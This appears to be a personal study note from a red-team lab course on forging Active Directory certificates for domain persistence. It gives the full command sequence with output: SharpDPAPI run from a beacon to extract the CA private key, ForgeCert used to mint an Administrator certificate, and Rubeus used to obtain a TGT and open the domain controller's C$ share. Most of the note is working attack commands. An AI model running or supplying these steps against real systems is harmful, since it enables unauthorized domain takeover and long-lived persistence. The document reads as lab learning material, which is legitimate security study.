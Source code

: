 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Forged Certificates]]  
___

## Description:  

In larger organisations, the AD CS roles are installed on separate servers and not on the domain controllers themselves.  Often times, they are also not treated with the same sensitivity as DCs.  So whereas only EAs and DAs can access/manage DCs, "lower level" roles such as server admins can often access the CAs.

So although this can be also seen a privilege escalation, it's just as useful as a domain persistence method.

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).  The default validity period for a CA private key is 5 years, but this can obviously be set to any value during setup, sometimes as high as 10+ years.


Once on a CA, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) can extract the private keys.

```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine

```

You can generally tell this is the private CA key because the Issuer and Subject are both set to the distinguished name of the CA.  With any luck, the expiry date will also be long into the future.  Save the output to a `.pem` file and convert it to a `.pfx` with openssl on Kali, then move it back to the attacker-windows machine.

The next step is to build the forged certificate with [ForgeCert](https://github.com/GhostPack/ForgeCert).

```
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
CA Certificate Information:
  Subject:        CN=ca-1, DC=cyberbotic, DC=io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     2/25/2022 11:29:14 AM
  End Date:       2/25/2047 11:39:08 AM
  Thumbprint:     7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
  Serial:         31AC83C6678F28994CFB58207C9FB668

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: Administrator@cyberbotic.io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     3/1/2022 2:19:20 PM
  End Date:       3/1/2023 2:19:20 PM
  Thumbprint:     73C45EC22357C0451E0F374AC30B5C6F6034B132
  Serial:         009E1C0AE8A247695199F8157DB37E38AD

Done. Saved forged certificate to fake.pfx with the password 'password'
```

Even though you can specify any SubjectAltName, the user does need to be present in AD.  In this example, the default Administrator account is used.  Then we can simply use Rubeus to request a legitimate TGT with this forged certificate and use it to access the domain controller.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-1.cyberbotic.io\c$
[-] could not open \\dc-1.cyberbotic.io\c$\*: 5

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=User 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\Administrator'
[*] Using domain controller: 10.10.15.75:88

[+] TGT request successful!
[*] base64(ticket.kirbi):

doIF4j [...snip...] 5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  Administrator
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  3/1/2022 2:22:55 PM
  EndTime                  :  3/2/2022 12:22:55 AM
  RenewTill                :  3/8/2022 2:22:55 PM
  Flags                    :  name-canonicalize, pre-authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  WVE8rl7BfHlOdAPGq7cjJw==
  ASREP (key)              :  5681DDB25CFF9F80C65E4976DB23B0B7

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-1-tgt.kirbi

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2022 11:20:17   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:55:20   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/25/2022 12:10:08   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     01/20/2022 15:50:53   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     03/01/2022 14:06:29   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/01/2022 10:13:44   pagefile.sys
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:09 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
